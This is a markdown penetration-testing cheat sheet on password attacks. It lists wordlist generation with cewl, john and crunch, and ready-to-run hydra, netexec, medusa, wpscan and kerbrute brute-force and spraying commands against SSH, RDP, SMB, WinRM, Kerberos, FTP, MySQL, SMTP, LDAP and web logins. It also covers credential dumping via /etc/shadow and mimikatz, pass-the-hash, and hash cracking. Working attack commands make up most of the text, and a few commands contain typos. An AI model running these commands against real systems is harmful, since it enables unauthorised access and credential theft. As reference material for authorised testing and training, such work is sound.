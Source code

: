 # Bruteforce

## Things to remember
  *  "[Bruteforce](https://en.wikipedia.org/wiki/Brute-force_attack)" in this context is a blanket term for all sorts of password attacks
  *  Enumerate and spray against all available services
  *  Expose password policy to reduce possible keyspace
  *  Mutated wordlists results do **NOT** contain the original words
      *  Add original words back to the list as well

## Useful tools
  *  [`cewl`](https://github.com/digininja/CeWL), [`john`](https://www.openwall.com/john/), and [`crunch`](https://sourceforge.net/projects/crunch-wordlist/) for generating custom wordlists
  *  [`medusa`](http://foofus.net/?page_id=51), [`hydra`](https://github.com/vanhauser-thc/thc-hydra), and [`netexec`](https://www.netexec.wiki/) for various bruteforcing
  *  [`kerbrute`](https://github.com/ropnop/kerbrute) for Kerberos bruteforcing
  *  [`unshadow`](https://manpages.ubuntu.com/manpages/xenial/man8/unshadow.8.html) for preparing Linux hashes for cracking
  *  [`john`](https://www.openwall.com/john/) and [`hashcat`](https://hashcat.net/hashcat/) for cracking hashes

## Generating custom wordlists
  *  Stitch words together, add numbers, special characters, etc.
  *  `cewl` for collecting words of interest from webpages
  *  `john` for mutating wordlists based on rules
      *  Add [rules](https://www.openwall.com/john/doc/RULES.shtml) to config located at `/etc/john/john.conf`
  *  [`crunch`](https://www.hackingarticles.in/a-detailed-guide-on-crunch/) for generating combinations of characters
      *  Predefined charsets in `/usr/share/crunch/charset.lst`

// Scraping words and modifying wordlist
```
cewl www.target.com -m 1 -w target-cewl.txt
cewl https://www.target.com -m 1 -w target-cewl.txt
john -w=target-cewl.txt --rules=CapsToggleZero --stdout > target-mutated.txt
```

// Example `john` rule: toggle caps for 0th index of every word  
```
[List.Rules:CapsToggleZero]
T0
```

// Generating character combos and mutating words  
// All combos of words read from a file  
// Add all combos of two digits to the end of a word  
// Add combos of two digits to the end of a word with literals  
```
crunch 0 0 -q target-cewl.txt
crunch 10 10 -t password%%
crunch 10 10 -t p@ssword%% -l a@aaaaaaaa
```

## HTTP htaccess
  *  `medusa` for bruteforcing [htaccess](https://httpd.apache.org/docs/2.4/howto/htaccess.html) restricted resources

```
medua -h 10.0.0.1 -u bob -P /path/to/passwords.txt -M http -m DIR:/protected/resource/path
```

## HTTP POST forms
  *  `hydra` for bruteforcing HTTP POST forms 
      *  Provide success/failure indicators for proper reporting
      *  Beware cookies, session IDs, tokens, etc. for bruteforce protection
      *  `Burp intruder` recursive grep function works but it throttles

```
hydra -l bob -P /path/to/passwords.txt 10.0.0.1 -vV http-post-form '/login:username=^USER^&password=^PASS^:F=FAILED LOGIN MESSAGE'
hydra -l bob -P /path/to/passwords.txt 10.0.0.1 -vV http-post-form '/login:username=^USER^&password=^PASS^:S=SUCCESS LOGIN MESSAGE'
hydra -l bob -e nsr 10.0.0.1 -vV http-post-form '/login:username=^USER^&password=^PASS^:S=SUCCESS LOGIN MESSAGE'
hydra -L users.txt -P /path/to/passwords.txt 10.0.0.1 -vV http-post-form '/login:username=^USER^&password=^PASS^:S=SUCCESS HTTP CODE'
```

## Wordpress
  *  `wpscan` is normally an enum tool, but also supports bruteforce

```
wpscan --url http://10.0.0.1 --usernames bob --password /path/to/passwords.txt
wpscan --url http://10.0.0.1 --usernames users.txt --pasword /path/to/known/passwords.txt
```

## SMB
  *  `netexec` for SMB bruteforcing

```
netexec smb 10.0.0.1 -u bob -p /path/to/passwords.txt -d example.local --continue-on-success
netexec smb 10.0.0.1 -u bob -p /path/to/passwords.txt --local-auth
netexec smb 10.0.0.1 -u users.txt -p /path/to/passwords.txt --local-auth
```

## Remote desktop
  *  `netexec` for RDP bruteforcing
  *  `hydra` also supports RDP bruteforce (occasional jank)

```
netexec rdp 10.0.0.1 -u bob -p /path/to/passwords.txt -d example.local --continue-on-success
netexec rdp 10.0.0.1 -u bob -p /path/to/passwords.txt --local-auth
netexec rdp 10.0.0.1 -u users.txt -p /path/to/passwords.txt --local-auth
```

```
hydra -vV -l bob -P /path/to/passwords.txt -t 1 rdp://10.0.0.1
```

## WinRM
  *  `netexec` for WimRM bruteforcing

```
netexec winrm 10.0.0.1 -u bob -p /path/to/passwords.txt -d example.local --continue-on-success
netexec winrm 10.0.0.1 -u bob -p /path/to/passwords.txt --local-auth
netexec winrm 10.0.0.1 -u users.txt -p /path/to/passwords.txt --local-auth
```

## Kerberos
  *  `kerbrute` for Kerberos bruteforcing
  *  Clock skew errors can also apply here
      *  Always be verbose to catch clock errors
      *  [Sync time](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/kerberoast#persistence) with [`ntpdate`](https://linux.die.net/man/8/ntpdate) or [`rdate`](https://linux.die.net/man/1/rdate)

```
./kerbrute bruteuser --dc 10.0.0.1 -d example.local -v /path/to/passwords.txt bob
./kerbrute bruteforce --dc 10.0.0.1 -d example.local -v /path/to/users-and-passwords.txt
./kerbrute passwordspray --dc 10.0.0.1 -d example.local -v /path/to/users.txt password
```

## SSH
  *  `hydra` for SSH bruteforcing
  *  `netexec` for older SSH services

```
hydra -l bob -P /path/to/passwords.txt -vV ssh://10.0.0.1
hydra -L users.txt -e nsr -vV ssh://10.0.0.1
hydra -L users.txt -P /path/to/known/passwords.txt -vV ssh://10.0.0.1
```

```
netexec ssh 10.0.0.1 -u bob -p /path/to/passwords.txt
netexec ssh 10.0.0.1 -u users.txt -p /path/to/passwords.txt
```

## FTP
  *  `hydra` for FTP bruteforcing

```
hydra -l bob -P /path/to/passwords.txt -vV ftp://10.0.0.1
hydra -L users.txt -e nsr -vV ftp://10.0.0.1
hydra -L users.txt -P /path/to/known/passwords.txt -vV ftp://10.0.0.1
```

## MySQL
  *  `hydra` for MySQL bruteforcing

```
hydra -L users.txt -P /path/to/known/passwords.txt -vV mysql://10.0.0.1
hydra -L users.txt -e nsr -vV mysql://10.0.0.1
hydra -l bob -P /path/to/passwords.txt -vV mysql://10.0.0.1
```

## SMTP
  *  `hydra` for SMTP bruteforcing
     *  First check if auth is even required

```
hydra -L users.txt -P /path/to/known/passwords.txt -vV smtp://10.0.0.1
hydra -L users.txt -e nsr -vV smtp://10.0.0.1
hydra -l bob -P /path/to/passwords.txt -vV smtp://10.0.0.1
```

## LDAP
  *  Check for null/anonymous access first
  *  `hydra` for LDAP bruteforcing
      *  Match expected LDAP version number

```
hydra -L users.txt -P /path/to/known/passwords.txt -vV ldap3://10.0.0.1
hydra -L users.txt -e nsr -vV ldap3://10.0.0.1
hydra -l bob -P /path/to/passwords.txt -vV ldap3://10.0.0.1
```

## Linux hash dumping
  *  Linux hashes are stored in `/etc/shadow`
      *  Copy or combine with `/etc/passwd` using `unshadow`

```
cat /etc/shadow
unshadow /etc/passwd /etc/shadow > target-hashes.txt
```

## Windows hash dumping
  *  Windows hashes are stored in Security Account Manager (**SAM**)
      *  `NTDS.dit` on a domain controller
  *  `mimikatz` for dumping hashes from memory

```
mimikatz # privilege::debug
mimikatz # token::elevate
mimikatz # lsadump::sam
mimikatz # lsadump::lsa /patch
```

## Pass the hash
  *  Some authentication mechanisms only rely on the hash of the user's password
      *  Meaning the actual password is not required, only the hash is needed
      *  Hashes dumped from a domain machine can often be used without cracking
  *  Many tools can make use of NT hashes for authentication `GTS`

## Hash cracking
  *  `john` may not utilize GPU for certain hash types, consider `hashcat` in these cases
      *  [Specify mask](https://hashcat.net/wiki/doku.php?id=mask_attack) to reduce total keyspace

```
john -w=/path/to/passwords.txt target-hashes.txt
john -w=/path/to/passwords.txt --format=crypt target-hashes.txt
```

```
john -w=/path/to/passwords.txt --format=NT target-NT-hashes.txt
john -w=/path/to/passwords.txt --format=LM target-LM-hashes.txt
```
